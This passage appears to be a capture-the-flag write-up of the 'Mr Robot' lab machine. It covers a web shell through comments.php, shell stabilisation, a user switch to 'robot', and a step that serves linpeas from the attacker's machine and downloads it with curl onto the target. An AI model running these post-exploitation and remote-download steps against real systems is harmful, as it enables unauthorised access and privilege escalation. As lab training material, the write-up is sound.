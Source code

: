 Move the endpoint consisting `comments.php`.

**Notice:** `shell_exec()` method did not work because method was not activated.

![[Mrrobot/images/28.png]]

From the above image, as you can see it attempted and successfully achieved fully interactive `TTY` and `rlwrap` (memorizing shell utility) together. 

Let's move in the  target host:

Capture the second flag:

![[Mrrobot/images/29.png]]

Since I got the shell with `web applicaton` not through known user:pass via `SSH`. I could not analyze which command `daemon` can run.

![[Mrrobot/images/30.png]]

I recognized that I was the `daemon` ,but still we have `robot` user:

![[Mrrobot/images/31.png]]

Apply `lateral movement` via user credentials.

Vertical privilege escalation succeed:

![[Mrrobot/images/32.png]]


Let's authenticate as `robot`:

```
su robot
```

![[Mrrobot/images/33.png]]

After a couple of minutes, I preferred `OS discovery` via `linpeas`. Before I download the script, I want you warn you about `linpeas`. Generic `linpeas` was not located on static page known as `linpeas.sh` domain. It is directly on Carlos's profile:

[Original linpeas](https://github.com/peass-ng/PEASS-ng)

In my first attempt, I was not able to run script with `penelope` shell. Reason why I could not upload + run in one command is that I could not achieve it on `/home/robot` path, instead I applied on `/tmp/` folder as default then it worked. Maybe, because of the restrictions, I was not successfull.


deploy python http server:

`sudo python -m http.server 80`

![[Mrrobot/images/34.png]]

just download it from your local server:

`curl -L http://tun0_IP_address:80/linpeas.sh`
